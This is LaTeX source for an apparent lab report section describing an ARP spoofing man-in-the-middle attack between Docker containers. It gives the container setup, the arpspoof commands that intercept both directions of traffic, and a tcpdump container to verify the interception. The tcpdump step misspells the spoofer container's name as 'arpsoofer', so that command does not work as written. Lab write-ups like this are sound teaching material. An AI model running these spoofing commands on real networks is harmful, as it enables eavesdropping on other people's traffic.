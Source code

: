 \documentclass[a4paper,12pt]{article}
\newcommand{\code}[1]{\lstinline|#1|}
\def\myfig#1{Fig.~#1\xspace}
\begin{document}
\subsubsection{Attack Execution}

To perform the attack we will launch the first two containers, using the
commands: 
\begin{lstlisting}
docker run -it --name client1 busybox
docker run -it --name client2 busybox
\end{lstlisting}
On both the containers we will use the command \code{ifconfig} to find out their
IP and MAC addresses. In our case the first container (\textit{client1}) has IP
address \textit{172.17.0.2} and MAC address \textit{02:42:AC:11:00:02}, while
the second container (\textit{client2}) has IP address \textit{172.17.0.3} and
MAC address \textit{02:42:AC:11:00:03}. From the second container we will ping
the first container, simply using the command \code{ping 172.17.0.2}. \par Then
we will launch the third container with the command: 
\begin{lstlisting}
docker run -it --name arpspoofer arpspoof
\end{lstlisting}
Using the \code{ifconfig} command we can see that the IP address of such
container is \textit{172.17.0.4}, while its MAC address is
\textit{02:42:AC:11:00:04}. We will use then the \code{arpspoof}
command to perform the ARP spoofing attack. In particular we use such command to
get the traffic in both directions between \textit{client1} and
\textit{client2}:
\begin{lstlisting}
arpspoof -i eth0  -t 172.17.0.3 172.17.0.2 &> /dev/null &
arpspoof -i eth0  -t 172.17.0.2 172.17.0.3 &> /dev/null &
\end{lstlisting}
To verify the effective execution of this attack we will launch the fourth
container using the command:
\begin{lstlisting}
docker run -it --name tcpdumper --net=container:arpsoofer tcpdump
\end{lstlisting}
The \code{--net=container:arpsoofer} option is used in this case to share the
network stack of the \textit{arpspoofer} container with this one. \par The
correct execution of the attack can be seen in \myfig{\ref{fig:ARP_performed}}.
\end{document}
